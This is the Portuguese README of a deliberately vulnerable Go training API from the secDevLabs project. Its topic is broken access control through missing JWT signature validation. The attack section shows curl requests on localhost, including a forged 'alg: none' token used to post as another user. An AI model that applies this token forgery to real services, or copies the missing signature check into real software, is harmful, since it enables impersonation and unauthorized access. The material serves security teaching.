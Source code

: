 

# Camp Crystal Lake API

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

A API do Camp Crystal Lake é um aplicativo web simples de Golang que contém um exemplo de vulnerabilidade de controle de acesso quebrado e seu principal objetivo é descrever como um usuário mal-intencionado pode explorá-lo.

## Index

- [Definição](#o-que-é-quebra-de-controle-de-acesso)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é quebra de controle de acesso?

O controle de acesso impõe a política de forma que os usuários não possam agir fora de suas permissões pretendidas. As falhas geralmente levam à divulgação, modificação ou destruição de informações não autorizada dos dados ou à execução de uma função fora dos limites de acesso do usuário.

Os invasores podem explorar essas falhas para acessar funcionalidades e/ou dados não autorizados, como acesso a contas de outros usuários, visualizar arquivos confidenciais, modificar dados de outros usuários, alterar direitos de acesso, etc.

O principal objetivo deste aplicativo é discutir como as vulnerabilidades do **Quebra de Controle de Acesso** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações pull no **SecDevLabs** sobre como eles corrigiriam essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Depois é só visitar [localhost:20001][App] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Registrar um usuário;
- Realizar um login;
- Criar um novo post.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A validação incorreta do JWT, permite que usuários mal-intencionados criem tokens falsos e abusem da não validação do JWT. Um exemplo da não validação do JWT é não validar o algoritmo de assinatura usado.

Para entender melhor como a API funciona, criaremos um novo usuário.

Para este exemplo, criamos o usuário com as seguintes credenciais de login - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

Com o usuário criado, faremos login no aplicativo com suas credenciais para obter o token JWT. Por se tratar de um aplicativo de teste, o token JWT é devolvido ao usuário assim que ele efetua o login.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

De posse do token JWT, podemos criar um novo post na API, fazendo uma requisição POST diretamente para a rota autenticada `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

Porém, a API não verifica a assinatura utilizada pelo token JWT, qualquer usuário malicioso pode criar um token falso, conforme mostra a imagem:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

* Usar tokens falsos sem uma assinatura válida.
* Alterar outros usuários por meio da manipulação do JWT.

## PR Soluções

[Alerta de spoiler  🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/labels/Camplake-API)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição! 🎉 🎉


[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
